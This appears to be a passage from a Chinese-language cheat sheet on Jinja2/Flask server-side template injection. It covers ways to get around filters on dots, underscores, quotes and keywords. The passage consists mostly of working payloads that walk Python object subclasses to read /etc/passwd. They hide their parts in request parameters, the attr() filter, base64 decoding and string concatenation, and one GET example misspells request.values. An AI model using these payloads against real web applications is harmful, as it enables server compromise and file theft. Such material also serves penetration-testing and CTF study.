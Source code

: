 若.也被过滤，使用原生 JinJa2 函数 |attr()

即将 request.__class__ 改成 request|attr("__class__")

6️⃣

过滤下划线 _

利用 request.args 的属性

```python
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

将其中的 request.args 改为 request.values，则利用 post 的方式进行传参。

GET:

```python
{{ ''[request.value.class][request.value.mro][2][request.value.subclasses]()[40]('/etc/passwd').read() }}
```

POST:

```python
class=__class__&mro=__mro__&subclasses=__subclasses__
```

7️⃣

过滤引号 "

request.args 是 flask 中的一个属性，为返回请求的参数，这里把 path 当作变量名，将后面的路径传值进来，进而绕过了引号的过滤。

```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
```

8️⃣

一些关键字被过滤。

**base64编码绕过**
用于__getattribute__使用实例访问属性时。

例如，过滤掉 __class__ 关键词

```python
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

**字符串拼接绕过**

```python
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
{{[].__getattribute__(['__c','lass__']|join).__base__.__subclasses__()[40]}} 
```

## Tplmap

